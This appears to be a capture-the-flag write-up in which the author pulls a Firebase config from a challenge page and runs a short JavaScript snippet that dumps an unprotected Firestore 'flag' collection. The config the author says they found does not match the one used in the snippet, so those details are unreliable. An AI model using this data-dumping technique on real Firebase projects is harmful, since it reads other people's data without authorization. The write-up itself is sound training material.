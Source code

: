 # Flag Collection

After checking the source we find a firebase config.

```js
const firebaseConfig = {
  apiKey: "AIzaSyDHjPh1vkUeGy37mS3cHn-D1UU_oipuTYY",
  authDomain: "vishwactf-challenge12.firebaseapp.com",
  projectId: "vishwactf-challenge12",
  storageBucket: "vishwactf-challenge12.appspot.com",
  messagingSenderId: "435590274737",
  appId: "1:435590274737:web:2bfab4663703ba42c40c90",
};
```

Seems easy we get all documents from `flag` collection (as they hinted)

```js
import { initializeApp } from "firebase/app";
import { collection, getDocs, getFirestore } from "firebase/firestore";

const firebaseConfig = {
  apiKey: "AIzaSyCOrohCmYL_hq5DaqFbQM3rxHXT0pNE6SA",
  authDomain: "vishwa-ctf-challenge-12.firebaseapp.com",
  projectId: "vishwa-ctf-challenge-12",
  storageBucket: "vishwa-ctf-challenge-12.appspot.com",
  messagingSenderId: "125452069157",
  appId: "1:125452069157:web:2d20b318f3e448ebfa52cc",
};

const firebaseApp = initializeApp(firebaseConfig);

const db = getFirestore();

getDocs(collection(db, "flag")).then((querySnapshot) => {
  querySnapshot.forEach((doc) => {
    console.log(`${doc.id} => ${doc.data().FLAG}`);
  });
});
```

There is our flag

![flag](flag.png)
